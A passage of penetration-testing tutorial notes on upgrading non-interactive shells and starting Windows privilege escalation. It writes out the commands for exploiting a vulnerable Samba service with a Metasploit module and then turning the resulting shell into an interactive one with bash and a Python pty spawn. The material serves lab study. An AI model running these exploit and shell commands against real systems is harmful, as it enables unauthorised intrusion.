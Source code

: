 <br>

## 4. Upgrading Shells

### 4.1. Upgrading Non - Interactive Shells

Upgrading non-interactive shells to interactive ones is an important technique during penetration testing and post-exploitation to gain better control and functionality on the target system. Shells obtained via netcat or certain reverse shell payloads often lack interactive TTY capabilities.

 `/bin/bash -i` - This upgrades it to an interactive shell, which is much more usable. Upgrading is important because non-interactive shells often lack basic features like prompt display, command history, or proper input handling.

**Objective:** Exploit the vulnerable service using suitable Metasploit module and then upgrade the non-interactive shell.

**Gain access to the system**

```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>
# The Nmap scan reveals a vulnerable version of SAMBA running on port 445.
service postgresql start && msfconsole
use exploit/linux/samba/is_known_pipename
set RHOST <target_IP>
exploit
```

**Post exploitation** 

One simple way to tell you’re in a non-interactive shell is the absence of a prompt. Previously, we used `/bin/bash -i` to upgrade the shell, assuming bash is installed — but not all Linux systems have it. To check which shells are available on the target, run: `cat /etc/shells`. 

**The first step is to display the list of shells installed on the target system.**

```shell
cat /etc/shells
/bin/bash -i

# We can also spawn a bash session with Python.
python --version
python -c 'import pty; pty.spawn("/bin/bash")'
```

<br>

## 5. Privilege Escalation

### 5.1. Identifying Windows Escalation Vulnerabilities

Privilege escalation is a complex phase of post-exploitation, not just because of the operating system, but due to the wide range of available techniques. To escalate privileges on a Windows system, the first and most consistent step is identifying privilege escalation vulnerabilities on the compromised machine. After this, the tools and methods used will vary depending on factors such as:
- The version of Windows    
- The system’s unique configuration 
Since this process can be tedious and time-consuming, it's highly recommended to **automate the identification of privilege escalation vulnerabilities** whenever possible.
